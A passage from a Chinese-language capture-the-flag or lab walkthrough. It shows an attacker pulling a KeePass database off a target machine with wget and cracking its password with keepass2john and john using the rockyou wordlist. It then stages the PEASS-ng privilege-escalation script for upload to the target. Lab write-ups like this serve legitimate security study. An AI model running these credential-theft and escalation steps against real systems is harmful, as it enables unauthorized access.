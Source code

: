 ```
python3 -m http.server
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

2。kali攻击机下载keyfile.kdbx

```
wget http://192.168.7.188:8000/keyfile.kdbx
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

3。获取密码hash值

```
keepass2john keyfile.kdbx > hash
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

4。john暴破密码

```
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

拿到数据库密码porsiempre

5。将keyfile.kdbx文件上传到在线查看网站

```
https://app.keeweb.info/
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

里面的内容都是空的，难道这几个是密码？用这几个字符串做密码切换root帐号全部失败，看来是迷惑我们的还是要继续找提权信息。

辅助脚本提权
------

```
脚本项目地址  
https://github.com/carlospolop/PEASS-ng/releases
```

下载好后将提权脚本上传到靶机上执行

1。kali开启HTTP服务

```
python3 -m http.server
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  
